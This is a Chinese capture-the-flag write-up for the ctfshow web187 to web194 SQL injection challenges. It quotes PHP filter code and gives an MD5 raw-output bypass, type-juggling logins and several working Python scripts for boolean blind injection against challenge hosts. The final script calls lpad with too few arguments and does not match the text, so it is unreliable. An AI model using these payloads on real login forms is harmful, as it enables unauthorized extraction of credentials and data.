




### web187

返回逻辑

```
$username = $_POST['username'];
$password = md5($_POST['password'],true);

//只有admin可以获得flag
if($username!='admin'){
	$ret['msg']='用户名不存在';
	die(json_encode($ret));
}
```

利用点：`$password = md5($_POST['password'],true);`

md5 true 对  `ffifdyop`  字符串进行加密的时候, 会出现  `'or'6`, 相当于万能密码

POST 提交  `username=admin&password=ffifdyop`  得到 flag

常用的两个 payload

```
ffifdyop
129581926211651571912466741651878684928
```

浏览器直接说登录成功，没有 flag

用 burp 抓包



### web188

返回逻辑

```
//用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```

当 username 的类型为 string 时, 传递  `username=0`  后, mysql 会默认把 string 转换成 int 类型

username=0&password=0



### web189

题目提示

```
flag在api/index.php文件中
```

返回逻辑

```
  //用户名检测
  if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```

利用 username 为 0 或 1 时回显不同进行盲注

```python
import requests

dicts='{1234567890-qwertyuiopasdfghjklzxcvbnm}'

flag = 'ctfshow{'

for i in range(1,64):
    for s in dicts:
        payload = 'if(load_file(\'/var/www/html/api/index.php\')regexp(\'{}\'),1,0)'.format(flag+s)
        res = requests.post('http://85d81369-aba0-49af-a849-c18a1587b385.challenge.ctf.show/api/index.php',data={'username':payload,'password':'1'})
        if res.text.find('67e5') != -1:
            flag += s
            print(flag)
            break
```



### web190

开启布尔盲注章节

返回逻辑

```
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
```

普通的布尔盲注
先爆库
再爆表
最后读数据

脚本

`information_schema.columns` 表会列出 **所有数据库** 中的表的列信息

```python
import time
import requests

dicts='{0123456789qwertyuiopasdfghjklzxcvbnm-_,}'

flag = ''

for i in range(1,64):
    for s in dicts:
        #payload = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload = 'select group_concat(column_name) from information_schema.columns where table_name=\'ctfshow_fl0g\' and table_schema=database()'
        payload = 'select f1ag from ctfshow_fl0g'
        t_payload = 'admin\' and if(substr(({}),{},1)=\'{}\',1,0)#'.format(payload,i,s)
        res = requests.post('http://4ea79d37-bc70-4e90-810b-bc2c7714e1a4.challenge.ctf.show/api/index.php',data={'username':t_payload,'password':'1'})
        if res.text.find('5bc6') != -1:
            flag += s
            print(flag)
            time.sleep(2)
            break
```

### web191

与上题相比加了过滤

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

不影响上题的脚本

```python
import time
import requests


dicts='{0123456789qwertyuiopasdfghjklzxcvbnm-_,}'
flag = ''

for i in range(1,64):

    for s in dicts:
        #payload = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload = 'select group_concat(column_name) from information_schema.columns where table_name=\'ctfshow_fl0g\' and table_schema=database()'
        payload = 'select f1ag from ctfshow_fl0g'
        t_payload = 'admin\' and if(substr(({}),{},1)=\'{}\',1,0)#'.format(payload,i,s)
        res = requests.post(' http://7235cc01-2c1b-4fa4-8bb7-aed502b64f1b.challenge.ctf.show/api/index.php',data={'username':t_payload,'password':'1'})
        if res.text.find('5bc6') != -1:
            print('***',t_payload)
            flag += s
            print(flag)
            time.sleep(2)
            break
```

### web192

返回逻辑

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

依然不影响脚本

```python
import time
import requests

dicts='{0123456789qwertyuiopasdfghjklzxcvbnm-_,}'

flag = ''

for i in range(1,64):
    for s in dicts:
        #payload = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload = 'select group_concat(column_name) from information_schema.columns where table_name=\'ctfshow_fl0g\' and table_schema=database()'
        payload = 'select f1ag from ctfshow_fl0g'
        t_payload = 'admin\' and if(substr(({}),{},1)=\'{}\',1,0)#'.format(payload,i,s)
        res = requests.post('http://189a959e-e728-4203-9132-f68b70975210.challenge.ctf.show/api/index.php',data={'username':t_payload,'password':'1'})

        if res.text.find('5bc6') != -1:
            print('***',t_payload)
            flag += s
            print(flag)
            time.sleep(2)
            break
```

### web193

返回逻辑

```php
//密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

之前用的`substr`被过滤
但可以用 left()或者 right()。

> left()返回具有指定长度的字符串的左边部分。  
> left(string,length);
>
> length：想要截取的长度
> right()返回具有指定长度的字符串的右边部分，用法同上。

脚本

```python
import requests
import sys
import time

url = "http://1ee08e6e-73f6-4cda-8055-352602ba9dc9.challenge.ctf.show/api/"
flagstr = ",_}{abcdefghijklmnopqr-stuvwxyz0123456789"
tempstr = ""
flag = ""

for i in range(1,60):
    for mid in flagstr:
        #payload = "admin'and ((left((select database()),{})='{}'))#".format(i,tempstr+mid)
        #ctfshow_web
        #payload = "admin'and ((left((select group_concat(table_name) from information_schema.tables where table_schema=database()),{})='{}'))#".format(i,tempstr+mid)
        #ctfshow_flxg
        #payload = "admin'and ((left((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{})='{}'))#".format(i,tempstr+mid)
        #id,f1ag
        payload = "admin'and ((left((select f1ag from ctfshow_flxg),{})='{}'))#".format(i,tempstr+mid)

        data = {
            "username":payload,
            "password":0,
        }

        res = requests.post(url = url,data =data)
        time.sleep(0.3)
        if res.text.find("8bef")>0:
            tempstr += mid
            flag += mid
            print("++++++++++++++++++++"+flag)
            break
```

### web194

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

left、right 被过滤

改成 mid 即可

```python
import requests
import sys
import time


url = "http://25573b9e-68ca-40a0-8d84-d8a4e05e8eff.challenge.ctf.show/api/"
flagstr = ",_}{abcdefghijklmnopqr-stuvwxyz0123456789"

tempstr = ""

flag = ""

for i in range(1,60):

    for mid in flagstr:
        #payload = "admin'and ((mid((select database()),{})='{}'))#".format(i,tempstr+mid)
        #ctfshow_web
        #payload = "admin'and ((left((select group_concat(table_name) from information_schema.tables where table_schema=database()),{})='{}'))#".format(i,tempstr+mid)

        #ctfshow_flxg
        #payload = "admin'and ((left((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{})='{}'))#".format(i,tempstr+mid)
        #id,f1ag
        payload = "admin'and ((lpad((select f1ag from ctfshow_flxg),{})='{}'))#".format(i,tempstr+mid)

        data = {

            "username":payload,

            "password":0,

        }

        res = requests.post(url = url,data =data)

        time.sleep(0.3)

        if res.text.find("8bef")>0:

            tempstr += mid

            flag += mid

            print("++++++++++++++++++++"+flag)

            break
```

可以用`lpad`


